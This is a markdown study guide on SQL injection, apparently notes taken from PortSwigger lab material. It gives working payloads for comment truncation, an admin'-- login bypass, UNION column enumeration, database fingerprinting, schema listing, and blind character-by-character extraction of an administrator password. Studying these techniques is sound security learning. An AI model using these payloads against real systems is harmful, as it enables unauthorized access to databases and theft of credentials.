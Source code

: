 # SQL injection

1. [SQLi](#sqli)
2. [SQLi Union](#sqli-union)
3. [Examining Database](#examining-database)
4. [Blind SQLi](#blind-sqli)
5. [SQLi CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

* SQLi - web security vulnerability; allows attacker to interfere with queries made by app to database.

* SQLi allows attacker to view data they are not supposed to retrieve; they can modify/delete this data, or escalate it to compromise the server or perform a denial-of-service attack.

## SQLi

* Retrieving hidden data:

  * Suppose the URL for a website is ```https://insecure-website.com/products?category=Gifts```. For this, the SQL query would be like:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts' AND released = 1
    ```

  * The attacker can construct an attack like ```https://insecure-website.com/products?category=Gifts'--```. This gives us the query:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

    -- acts as a comment in the query
    ```

  * The attacker can also use ```https://insecure-website.com/products?category=Gifts'+OR+1=1--```, which gives us the query:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
    ```

* Subverting app logic:

  * For app login, suppose the following SQL query is used:

    ```sql
    SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
    ```

  * The attacker can login without password by using the username ```admin'--``` in order to cut short the query:

    ```sql
    SELECT * FROM users WHERE username = 'admin'--' AND password = ''
    ```

* Retrieving data from other database tables:

  * Suppose the application executes a query based on user input 'Gifts':

    ```sql
    SELECT name, description FROM products WHERE category = 'Gifts'
    ```

  * Then, the attacker can submit the input using ```UNION```:

    ```sql
    ' UNION SELECT username, password FROM users--
    ```

## SQLi Union

* For ```UNION``` queries to work, the two sub-queries must return same number of columns, with compatible data types.

* Finding number of columns required:

  * Method 1 - ```ORDER BY``` clauses are used, incrementing the column index:

    ```sql
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    #until error occurs
    ```
  
  * Method 2 - ```UNION SELECT``` payloads with null values (compatible with all):

    ```sql
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    #until error modified
    ```

* Finding columns with useful data type:

  ```sql
  ' UNION SELECT 'a',NULL,NULL--
  ' UNION SELECT NULL,'a',NULL--
  ' UNION SELECT NULL,NULL,'a'--
  #until error does not occur, then relevant column is apt for string data
  ```

* Retrieving interesting data:

  ```sql
  ' UNION SELECT username, password FROM users--
  #provided there is a table 'users' with 2 columns 'username' and 'password'
  ```

* Retrieving multiple values within single column:

  ```sql
  ' UNION SELECT username || '~' || password FROM users--
  #concatenate output in Oracle using pipe operator

  ' UNION SELECT NULL,username || '~' || password FROM users--
  #differs based on number of columns
  ```

## Examining Database

* Querying database type & version:

  ```sql
  ' UNION SELECT @@version--
  #output if Microsoft SQL server

  ' UNION SELECT * FROM v$version
  #output if Oracle

  ' UNION SELECT version()
  #output if PostgreSQL
  ```

* Listing contents of database:

  ```sql
  SELECT * FROM information_schema.tables
  #returns table names

  SELECT * FROM information_schema.columns WHERE table_name = 'Users'
  #shows columns and data types of table
  ```

  ```sql
  #on Oracle
  #list tables
  SELECT * FROM all_tables

  #list columns
  SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
  ```

## Blind SQLi

* In blind vulnerabilities, application does not return results of SQL query or error details; with blind SQLi vulnerabilities, ```UNION attacks``` are not effective.

* Triggering conditional responses:

  * Suppose the app uses tracking cookies to gather usage analytics; requests to app would include a cookie header with 'TrackingId' field, which is used to find if it is a known user:

    ```sql
    SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
    ```

  * This query is vulnerable, but query results are not returned to user; we have to trigger responses conditionally:

    ```sql
    ..dummyVal' AND '1'='1
    #accepts user

    ..dummyVal' AND '1'='2
    #does not accept user
    ```

  * Assume there is a table ```Users``` with columns ```Username``` and ```Password```, with user ```Administrator``` - we can determine password using series of inputs (one char at a time):

    ```sql
    xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
    #this accepts user, indicating first char of password is greater than 'm'

    xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
    #this does not accept user, indicating first char of password is not greater than 't'

    xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
    #accepts user, meaning first char of password is 's'

    #continue this series
    #for Oracle db, use SUBSTR function
    ```
